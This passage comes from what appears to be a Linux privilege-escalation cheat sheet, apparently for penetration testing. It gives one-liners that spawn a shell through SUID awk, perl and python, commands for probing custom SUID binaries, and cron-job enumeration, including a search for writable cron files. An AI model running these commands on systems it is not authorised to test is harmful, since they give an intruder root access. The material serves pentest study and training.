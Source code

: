 	!sh
	```
- **Exploit SUID `awk`:**
	```bash
	awk 'BEGIN {system("/bin/sh")}'
	```
- **Exploit SUID `perl`:**
	```bash
	perl -e 'exec "/bin/sh";'
	```
- **Exploit SUID `python`:**
	```bash
	python -c 'import os; os.system("/bin/sh")'
	```

#### Exploiting Custom or Uncommon SUID Programs
- **Examine Custom SUID Binaries for Vulnerabilities:**
	```bash
	strings /path/to/suid_binary
	ltrace /path/to/suid_binary
	strace /path/to/suid_binary
	```

# Cron Jobs Privilege Escalation

#### User Cron Jobs
- **Lists cron jobs for the current user:**
	```bash
	crontab -l
	```
- **Check for User Cron Jobs:**
	```bash
	ls -la /var/spool/cron/crontabs/
	```

#### System-Wide Cron Jobs
- **Lists system-wide cron jobs and cron job directories:**
	```bash
	ls -la /etc/cron*
	```
- **Displays the system-wide crontab file:**
	```bash
	cat /etc/crontab
	```
- **Displays all files in /etc/cron.d:**
	```bash
	cat /etc/cron.d/*
	```

#### Writable Cron Jobs
- **Lists writable Cron Job files:**
	```bash
	find /etc/cron* -writable -type f 2>/dev/null
	```
